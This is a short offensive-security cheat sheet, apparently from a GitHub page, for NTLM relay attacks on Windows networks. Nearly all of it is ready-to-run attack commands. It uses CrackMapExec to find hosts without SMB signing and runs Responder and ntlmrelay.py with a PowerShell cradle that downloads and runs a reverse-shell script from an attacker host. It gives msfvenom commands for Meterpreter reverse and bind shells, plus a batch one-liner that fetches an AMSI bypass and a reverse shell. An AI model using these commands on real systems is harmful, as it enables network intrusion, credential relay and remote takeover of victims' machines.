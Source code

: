 #### Crackmapexec list hosts with SMB signed disabled
```
crackmapexec smb <CIDR> --gen-relay-list <OUTPUT FILE>
```

- Edit Responder config file to disable HTTP server and SMB server

#### Run NTLM Relay
```
ntlmrelay.py -t <TARGET> -c 'powershell.exe iex (New-Object.Net.Webclient).Downloadstring(\"http://<ATTACKER IP>/Invoke-PowerShellTcp.ps1\")"' -smb2support 
```
 
#### Run Responder
```
responder -I <INTERFACE> -v
```

#### Usefull payloads
```
# Meterpreter ps1 rev shell
msfvenom -p windows/x64/meterpreter_reverse_https -f psh -o msf.ps1 lhost=<HOST> lport=<PORT> exitfunc=thread

# Meterpreter bind tcp executable
msfvenom -p windows/x64/meterpreter/bind_tcp LHOST=<HOST> LPORT=<PORT> -f exe -o bind_tcp.exe

# Meterpreter reverse tcp executable
Msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<HOST> LPORT=<PORT> -f exe > shell.exe

# Bat file to run reverse powershell
msfvenom -p cmd/windows/reverse_powershell LHOST=<HOST> LPORT=<PORT> > attach.bat
```

#### Reverse.bat
```
powershell.exe -c "iex (New-Object Net.WebClient).DownloadString('http://<IP>/amsi.txt'); iex (New-Object Net.WebClient).DownloadString('http://<IP>/Invoke-PowerShellTcp2.ps1')"
```
 
